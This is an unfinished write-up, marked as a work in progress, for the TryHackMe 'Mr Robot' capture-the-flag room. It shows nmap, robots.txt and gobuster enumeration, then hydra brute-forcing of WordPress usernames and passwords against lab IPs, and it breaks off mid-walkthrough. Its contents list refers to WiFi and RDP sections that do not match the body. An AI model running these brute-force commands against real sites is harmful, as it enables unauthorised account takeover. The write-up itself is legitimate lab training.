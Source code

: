 # THIS PAGE IS A WORK IN PROGRESS... #


![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/109cc692-4ce9-4be0-83b8-935211f82301)

# Mr Robot CTF Writeup #
### [https://tryhackme.com/room/adv3nt0fdbopsjcap](https://tryhackme.com/room/mrrobot) ###

#  
### CONTENTS : ###
[TL;DR](#tldr-)

[PROCEDURE](#procedure-)

-  [Part 1 - Retrieving the WiFi SSID](#part-1---retrieving-the-wifi-ssid)
    
-  [Part 2 - Retrieving the WiFi Password](#part-2---retrieving-the-wifi-password)
    
-  [Part 3 - Decrypting and Analysing WiFi Traffic](#part-3---decrypting-and-analysing-wifi-traffic)
    
-  [Part 4 - Decrypting and Replaying a RDP Session](#part-4---decrypting-and-replaying-a-rdp-session)



### TL;DR : ###
#

Target IP: **``10.10.90.47``**

## FLAG 1 of 3 ##

>HINT: `Robots`

We are given a target IP  and a one-word hint that seems to be in-keeping with the overall Mr Robot theme of the room.

To start off, let's perform a NMAP scan just to see what services are running on the target:

```console
root@ip-10-10-140-73:~/mrobot# nmap -sV 10.10.90.47

Starting Nmap 7.60 ( https://nmap.org ) at 2024-02-07 09:03 GMT
Nmap scan report for ip-10-10-90-47.eu-west-1.compute.internal (10.10.90.47)
Host is up (0.00051s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
MAC Address: 02:14:FF:13:8D:17 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.79 seconds
```

It looks like the server is just running a web-page which we can access by visiting `http://10.10.90.47/` in our browser.  This brings up a cool simulated console:

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/5b168d2c-2a5b-48ba-8b7b-b64f0239b54d)

Trying to enter any of the commands offered on screen doesn't really lead anywhere, other than to give us some cool Mr Robot themed videos, pictures and text prompts. But it's worth noting that every command we enter redirects to a sub-url with the same name.  So for example if we enter the command `inform` it will take us to the `/inform` webpage.

Just as we'd normally do in a normal enumeration exercise (and also because fo that hint we got), we can take a look at the `robots.txt` file to see whether it contains anything interesting:

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/cc7708d5-66c4-415b-8123-a309f57698b8)

From here we can see reference to two interesting files; `fsocity.dic` and `key-1-of-3.txt`.

We can simply look at the contents of `key-1-of-3.txt` by entering the URL `http://10.10.90.47/key-1-of-3.txt` in the browser or by using `curl`:

```console
root:~# curl http://10.10.90.47/key-1-of-3.txt
073403<R E D A C T E D>0724b9
```

## FLAG 2 of 3 ##

>Hint: `There's something fishy about this wordlist... Why is it so long?`


We should also go ahead and download a copy of `fsocity.dic`.  Having a look at its contents, it appears to be some kind of wordlist.  Based on past expereinces with similar CTF challenges, this indicates that we'll probably be needing this wordlist to perform a bruteforce password cracking at some point later on.

For the time being, let's take a closer look at the website and see whether we can find an interestiugn directories.  We can use `gobuster` with a medium wordlist for this:

```console
root:~# gobuster dir -u http://10.10.90.47 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 1000 -q
/video (Status: 301)
/admin (Status: 301)
/wp-content (Status: 301)
/atom (Status: 301)
/0 (Status: 301)
/audio (Status: 301)
/feed (Status: 301)
/css (Status: 301)
/intro (Status: 200)
/images (Status: 301)
/sitemap (Status: 200)
/image (Status: 301)
/Image (Status: 301)
/wp-login (Status: 200)
/rss2 (Status: 301)
```

Interestingly we can see a `/wp-login` page and if we try accessing this we are served a Wordpress login page! :)

If we try logging in with username `admin` and password `admin` (just to see what happens).  The page serves up an error saying **_Invalid username_**.  This is actually great news fopr us as this means we have a way of trying out multiple usernames and finding out which of them are valid.

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/59c85716-60e0-4cb6-a03d-2dbc19ef8298)

We can do this quite easily using a tool such as `hydra` and it makes sense to use the `fsocity.dic` wordlist we found earlier to attempt this.  But first let's fire up Burp Suite and have a look at what happens when we submit a username and password.  This will allow us to consturct the proper hydra command we need to use.

```http
POST /wp-login.php HTTP/1.1
Host: 10.10.90.47
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: http://10.10.90.47
Connection: close
Referer: http://10.10.90.47/wp-login.php
Cookie: s_cc=true; s_fid=5C779EDA99811D07-07120F123BF26DC4; s_nr=1707297020912; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.90.47%2Fwp-admin%2F&testcookie=1
```

We can see a http POST request being made that passes the username as the variable `log` and the password as the variable `pwd`.  We can now use this information so that hydra can enumarte valid usernames with the following command:

```console
root:~# hydra -L fsocity.dic -p abcdef 10.10.5.136 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username"
```

Let's take a closer look at the parameters we're passing on to hydra in this command:
- `-L <filename>` passes a wordlist to be used when brute forcing logins/passwords.  In our case we will be using the file `fsocity.dic` which we downloaded earlier
- `-p <password>` specifies the password to use.  Since we are just trying to enumarate usernames for the time being, we can use any random string here.
- `http-post-form` tells hydra to use the http post method (since this is what we saw in Burp Suite).
- `/wp-login.php:log=^USER^&pwd=^PWD^:Invalid Username`  This part tells hydra the strcuture that the http post request should take. In our case we copy this from the captured post in Burp Suite and replace the username and password with the placeholders `^USER^` and `^PWD^` respectively.  The "`Invalid Username`" is a string we're expecting to recieve in the http response whenever the username is incorrect.

Hydra gives us the following output telling us that from the `fsocity.dic` file provided it has identified `Elliot` as a valid username.

```console
[DATA] attacking http-post-form://10.10.5.136:80//wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.5.136   login: Elliot   password: abcdef
```

We can now try running the attack again but this time using `Elliot` as the username and brute-forcing the password field.

```console
root:~# hydra -l elliot -P fsocity.dic 10.10.5.136 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered"
```
This time we're using the `-l` switch with username `elliot` and the `-P` switch instead of `-p` to use a wordlist file.  Note that the failure message has also been changed to "The password you entered" to reflect part of the error message we get when we try logging in with the correct username but an incorrect password.
